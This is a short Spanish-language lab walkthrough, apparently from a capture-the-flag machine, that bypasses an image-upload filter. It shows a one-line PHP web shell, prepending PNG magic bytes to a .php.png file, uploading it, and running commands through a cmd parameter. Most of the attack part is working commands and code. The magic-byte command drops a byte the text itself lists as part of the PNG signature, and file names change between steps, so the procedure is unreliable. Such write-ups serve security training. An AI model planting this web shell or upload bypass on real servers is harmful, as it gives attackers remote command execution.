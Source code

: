 >Vamos a /uploads/10_10_14_49.php.jpeg

y tratamos de inyectar código

```bash
/uploads/10_10_14_49.php.jpeg?cmd=id
```

![[Pasted image 20250619161031.png]]

>Comprobamos que si funciona 

#### Forma Opcional de Inyección de código en upload

##### Creamos archivo php con shell

```php
php

<?php system($_GET['cmd']); ?>

```

![[Pasted image 20250619160258.png]]


##### creamos un archivo .php.png que contenga la cadena 89 50 4E 47 0D 0A 1A 0A

89 50 4E 47 0D 0A 1A 0A - esta cadena es la primera de cualquier imagen png y la identifica como tal

```bash
echo '89 50 4E 0D 0A 1A 0A' |xxd -p -r > nombre_archivo.php.png
```

![[Pasted image 20250619161331.png]]


##### inyectamos el php de antes en el archivo

```bash
cat shell.php >> colada_shell.php.png
```

![[Pasted image 20250619161807.png]]

##### subimos el archivo en /upload.php

![[Pasted image 20250619161533.png]]

##### verificamos que el archivo este en 10.129.233.150/photos.php y vemos el nombre asignado por sistema

> el nombre es nuestra ip pero en vez de puntos con guion bajo 10_10_14_49.php.png

![[Pasted image 20250619161624.png]]
